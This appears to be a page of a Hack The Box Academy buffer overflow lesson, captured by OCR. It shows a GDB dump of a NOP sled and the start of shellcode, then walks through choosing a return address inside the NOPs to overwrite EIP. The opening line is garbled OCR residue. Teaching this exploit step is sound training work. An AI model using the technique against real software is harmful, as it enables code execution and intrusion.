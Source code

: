 There we see in the end there is `offset objfile`stack and its size is `ox21000` and that's our exercise question

**Page 10 / Identification of the Return Address**

# Identification of the Return Address

After checking that we still control the EIP with our shellcode, we now need a memory address where our NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad characters we found previously.

#### GDB NOPS

GDB NOPS

```shell-session
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5f4:	0x55	0x55	0x55	0x55	0x55	0x55	0x90	0x90
								# End of "\x55"s   ---->|  |---> NOPS
0xffffd5fc:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd604:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd60c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd614:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd61c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd624:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd62c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd634:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd63c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd644:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |---> Shellcode
<SNIP>
```

Here, we now have to choose an address to which we refer the `EIP` and which reads and executes one byte after the other starting at this address. In this example, we take the address `0xffffd64c`. Illustrated, it then looks like this:

#### Buffer

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_9.png)

After selecting a memory address, we replace our "`\x66`" which overwrites the EIP to tell it to jump to the `0xffffd64c` address. Note that the input of the address is entered backward.

#### Notes

Notes
